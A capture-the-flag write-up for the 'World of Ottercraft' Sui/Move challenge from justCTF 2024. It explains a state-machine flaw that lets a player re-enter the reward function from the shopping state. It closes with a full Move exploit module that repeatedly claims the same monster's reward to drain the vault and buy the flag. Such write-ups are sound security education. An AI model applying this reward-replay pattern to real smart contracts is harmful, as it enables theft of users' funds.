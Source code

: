 # World of Ottercraft

This challenge was the `Hard` one of three blockchain challenges at `justCTF 2024 teaser`. All challenges were related to the `Sui` blockchain with the challenges being written in `Move`.

## Challenge Description
```
Welcome to the World of Ottercraft, where otters rule the blockchain! In this challenge, you'll dive deep into the blockchain to grab the mythical Otter Stone! Beware of the powerful monsters that will try to block your path! Can you outsmart them and fish out the Otter Stone, or will you just end up swimming in circles?

Challenge created by embe221ed & Darkstar49 from OtterSec

nc woo.nc.jctf.pro 31337
```

We were provided with a download link for a `tar` archive containing the challenge source and a full setup for the server and client.

## Challenge
The goal of this challenge was, as with the `Medium` one, to buy the flag. Compared to the `Medium` one, there were the following changes :
* buying items is more sophisticated with a ticket system and multiple items to buy
* more sophisticated state machine where every function is restricted to be entered only by specific states

The were the following states:

* PREPARE_FOR_TROUBLE
* ON_ADVENTURE
* RESTING
* SHOPPING
* FINISHED

Here a visualization of which states can enter which function and how the state gets set in the end:

* `RESTING` -> `enter_tavern` -> `SHOPPING`
* `SHOPPING` -> `buy_*`
* `[ANY STATE]` -> `checkout` -> `RESTING`
* `(PREPARE_FOR_TROUBLE, RESTING)` -> `find_a_monster` -> `PREPARE_FOR_TROUBLE`
* `PREPARE_FOR_TROUBLE` -> `bring_it_on` -> `ON_ADVENTURE`
* `ON_ADVENTURE` -> `return_home` -> `FINISHED`
* `(FINISHED, SHOPPING)` -> `get_the_reward` -> `RESTING`

Now looking at these state requirements and transitions, what looks especially suspicious, is that `get_the_reward` can be entered from the `SHOPPING` state.  
Another notable change is, that the logic concerning what monster to get the reward from has been changed to the following:
```Rust
public fun bring_it_on(board: &mut QuestBoard, player: &mut Player, quest_id: u64) {
    assert!(player.status != SHOPPING && player.status != FINISHED && player.status != RESTING && player.status != ON_ADVENTURE, WRONG_PLAYER_STATE);

    let monster = vector::borrow_mut(&mut board.quests, quest_id);
    assert!(player.power > monster.power, BETTER_GET_EQUIPPED);

    player.status = ON_ADVENTURE;

    player.power = 10; //equipment breaks after fighting the monster, and friends go to party :c
    monster.power = 0; //you win! wow!
    player.quest_index = quest_id; // <-----
}

public fun return_home(board: &mut QuestBoard, player: &mut Player) {
    assert!(player.status != SHOPPING && player.status != FINISHED && player.status != RESTING && player.status != PREPARE_FOR_TROUBLE, WRONG_PLAYER_STATE);

    let quest_to_finish = vector::borrow(&board.quests, player.quest_index); // <-----
    assert!(quest_to_finish.power == 0, WRONG_AMOUNT);

    player.status = FINISHED;
}

public fun get_the_reward(vault: &mut Vault<OTTER>, board: &mut QuestBoard, player: &mut Player, ctx: &mut TxContext) {
    assert!(player.status != RESTING && player.status != PREPARE_FOR_TROUBLE && player.status != ON_ADVENTURE, WRONG_PLAYER_STATE);

    let monster = vector::remove(&mut board.quests, player.quest_index); // <-----

    let Monster {
        reward: reward,
        power: _
    } = monster;

    let coins = coin::split(&mut vault.cash, reward, ctx); 
    let balance = coin::into_balance(coins);

    balance::join(&mut player.wallet, balance);

    player.status = RESTING;
}
```

The monster to be rewarded for, is now determined when fighting it, and seemingly correctly used later when getting the reward.
Also, when returning home, it is checked that the monster is actually defeated. So if we were to follow the state machine as intended, everything would be fine.
If we manage to enter `get_the_reward` multiple times however, we could do an attack similar to the one in the previous challenge. We could fight the monster at index 0. This would cause `get_the_reward` to take the 0th monster every consecutive time. If we now do not have to enter `return_home` before that, the monster is never checked to be beaten.

## Approach
Now putting the findings above together, we know the following:
* we can enter `get_the_reward` also from the `SHOPPING` state
* `checkout` can be entered from every state
* `get_the_reward` sets the state to `RESTING`
* `enter_tavern` sets the state to `SHOPPING`

The approach now looks like this:
1) find multiple monsters
2) fight the 0th monster normally and collect its reward
3) `enter_tavern` (sets state to `SHOPPING`)
4) buy the cheapest item (`buy_shield`)
5) "re-enter" `get_the_reward` which then sets the state to `RESTING`
6) `checkout`
7) repeat steps 3 to 6 until we have enough money to buy the flag
8) profit

Now one might think we could just `enter_tavern`, `get_the_reward`, without buying anything but this does not work due to checks done by `Move`.
More specifically, when we `enter_tavern`, we get a `ticket`. This ticket needs to be returned to `checkout` in order for our contract to even compile. Due to this, we need to return the ticket to `checkout` which has a check, that the `total` is greater than zero, meaning we need to buy something. Fortunately, there is an item `shield`, which costs less than what we receive from fighting a monster (only 20 coins, we get at least 62 coins as a reward).  

Now before fighting the monster we need to buy some item that has enough power to beat the first monster (`shield` obviously does not have enough).
The clear choice here is, of course, the `power_of_friendship`:
```Rust
public fun buy_power_of_friendship(player: &mut Player, ticket: &mut TawernTicket) {
    assert!(player.status == SHOPPING, WRONG_PLAYER_STATE);

    player.power = player.power + 9000; //it's over 9000!
    ticket.total = ticket.total + 190;
}
```

## Exploit
Putting everything together, we built the following exploit:
```Rust
module solve::solve {

    // [*] Import dependencies
    use challenge::Otter::{Self, OTTER};

    public fun solve(
        _board: &mut Otter::QuestBoard,
        _vault: &mut Otter::Vault<OTTER>,
        _player: &mut Otter::Player,
        _ctx: &mut TxContext
    ) {
        // Your code here...
        let mut ticket = Otter::enter_tavern(_player);

        Otter::buy_power_of_friendship(_player, &mut ticket);

        Otter::checkout(ticket, _player, _ctx, _vault, _board);

        let mut i = 0;
        while (i < 20) {
            Otter::find_a_monster(_board, _player);
            i = i + 1;
        };

        Otter::bring_it_on(_board, _player, 0);
        Otter::return_home(_board, _player);
        Otter::get_the_reward(_vault, _board, _player, _ctx);

        let mut i = 0;
        while (i < 10) {
            let mut tick = Otter::enter_tavern(_player);
            Otter::buy_shield(_player, &mut tick);
            Otter::get_the_reward(_vault, _board, _player, _ctx);
            Otter::checkout(tick, _player, _ctx, _vault, _board);
            i = i+1;
        };

        let mut ticket0 = Otter::enter_tavern(_player);

        Otter::buy_flag(&mut ticket0, _player);
        Otter::checkout(ticket0, _player, _ctx, _vault, _board);
    }
}

```
Throwing this at the remote server then yields the flag.